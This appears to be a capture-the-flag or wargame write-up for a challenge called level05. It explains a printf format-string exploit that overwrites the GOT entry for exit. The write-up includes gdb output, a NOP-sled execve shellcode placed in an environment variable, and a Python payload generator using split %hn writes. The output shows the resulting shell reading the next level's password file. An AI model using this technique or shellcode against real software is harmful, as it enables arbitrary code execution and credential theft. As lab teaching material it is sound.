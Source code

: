 ## 1 - Intro


The program echoes user input through printf and than exits with `exit` function.

There is **string format exploit** possible - where 

address`%`value`d%`arg-position`$n`

attack input is used to override `exit` jump address in GOT

```sh
(gdb) info functions exit
  0x08048370  exit

(gdb) disas 0x08048370
  0x08048370 <+0>:	jmp    *0x80497e0
```

The address: 0x080497e0

## 2 - Arg offset

```sh
./level05
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
aaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffd6d4 f7fdb000 61616161 20782520
      1    2     3 4 5 6     7        8        8       10 <- Here it is
```

The arg offset: 10


## 3 - The hack

We need to generate 0xffffdf0d (May be different on your setup!) chars with printf
what is 4.294.958.861 this is ***INSANE!***

So we can split the addr overwrite into tow &hn writes


```sh

# Put Shellcode from level01 in ENV with some NOP prefix
export SHELLCODE=`python -c 'print "\x90" * 128 + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"'`


# Program to get SHELLCODE end address
echo '''
#include <stdio.h>
#include <stdlib.h>
int main ()
{
  printf("%p\n", getenv("SHELLCODE"));
  return 0;
}
''' > /tmp/lvl5env.c
gcc -m32 /tmp/lvl5env.c -o /tmp/lvl5env;

# Get current env address and pass it to the python
/tmp/lvl5env | python -c '''
addr = int(raw_input(''), 16)

# Split value into tow parts with mask
parts = [
    (0xffff0000 & addr) >> 16,
    (0xffff & addr),
]

# Out addresses with offset 
pointers = (
    "0x080497e0"[2:].decode("hex")[::-1] +
    "0x080497e2"[2:].decode("hex")[::-1]
)

# Select lower part first as $n sums all up
first = min(parts)
second = max(parts)

result = (
    pointers +
    # Note the arg num flip based on index in parts
    "%{}d%1{}$hn".format(first - len(pointers), parts.index(second)) +
    "%{}d%1{}$hn".format(second - first, parts.index(first))
)

# Check wired if (see source.c for details)
for c in result:
    assert not (c > ord("@") and c < ord("["))

print result
''' > /tmp/lvl5

cat /tmp/lvl5 - | ./level05

```

The hack is completed!

```sh
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```